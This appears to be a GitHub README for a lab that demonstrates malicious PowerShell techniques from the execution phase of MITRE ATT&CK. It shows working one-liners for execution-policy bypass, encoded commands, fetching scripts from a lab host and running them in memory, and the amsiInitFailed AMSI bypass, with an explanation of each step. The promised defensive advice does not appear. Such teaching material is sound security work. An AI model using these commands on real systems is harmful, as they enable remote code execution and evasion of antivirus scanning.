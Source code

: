 # Scenario 

This attack falls into the execution phase of Mitre Att&ck and requires initial access to the victim machine via phishing, credential dumping or other methods. This scenario demonstrates the different techniques and tactics attackers use when using powershell maliciously and details the common misconfigurtions that allow these attacks to take place and best practices to secure your network
from malicious powershell use.

# Setup
# Attack Types
1. **Local Powershell script Execution**
   Attacker runs a script that is hosted locally
   Proof of concept: `powershell -ExecutionPolicy Bypass -File .\script.ps1`
   <img width="702" height="389" alt="image" src="https://github.com/user-attachments/assets/970d2cc5-124b-43e6-8074-357a558b6013" />

2. **Base64 Encoded Command**
   Attackers use Base64-encoded PowerShell commands primarily to:
   - Hide what the code is doing
   - Avoid detection by AV/EDR.
   - Bypass restrictions or logging.
   - Execute commands more reliably in remote or automated contexts.
  Proof of concept: `powershell -ExecutionPolicy Bypass -EncodedCommand VwByAGkAdABlAC0ASABvAHMAdAAgACIAaABlAGwAbABvACwAIABXAG8AcgBsAGQAIQAiAAoA`
<img width="860" height="54" alt="image" src="https://github.com/user-attachments/assets/081d264b-6284-4d82-a8e4-ea73c19cbd4a" />


  From this point the commands will be base64 encoded due to the prolific use in attacks. All commands will be executed in the same manner

3. **Download payload to disk for later use**
   Attacker will download payloads and malware for further staging and save them to disk so they can be ran later.
   <img width="849" height="437" alt="image" src="https://github.com/user-attachments/assets/ae623c89-9e75-4b62-883a-629145674136" />

   Proof of concept: `$Text = 'Invoke-WebRequest -Uri "http://192.168.1.105:8080/script.ps1" -OutFile "script.ps1"'`
   
4. **Download and Execute in Memory**
   Attackers will download scripts using the Invoke_WebRequest expression which is passed to Invoke-Expression which will execute the
   script in memory never writing any files to disk. This allows attackers to run commands and deliver full malware capabilities
   including c2 beacons.
   Proof of Concept: `$Text = "Invoke-Expression (Invoke-WebRequest -UseBasicParsing 'http://192.168.1.105/script.ps1')"`
   <img width="851" height="717" alt="image" src="https://github.com/user-attachments/assets/54252204-a5ff-497c-a8e5-662fca9d29ad" />
5. AMSI Bypass

 `[Ref].Assembly`

Accesses the currently running PowerShell assembly (code base).

[Ref] is a .NET class used to reflect over types.

`.GetType('System.Management.Automation.AmsiUtils')`

This loads the internal PowerShell class AmsiUtils, which handles AMSI integration.

 `.GetField('amsiInitFailed','NonPublic,Static')`

This uses .NET Reflection to access a private static field called amsiInitFailed.

That field tracks whether AMSI was successfully initialized in the process.

`.SetValue($null, $true)`

Sets the value of amsiInitFailed to $true, which tricks PowerShell into thinking AMSI has already failed.

As a result, PowerShell skips AMSI scanning for any future code in that session.

Proof of concept: `[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null, $true)
Add-Type -AssemblyName PresentationFramework
[System.Windows.MessageBox]::Show('AMSI bypass simulated.')
`

  
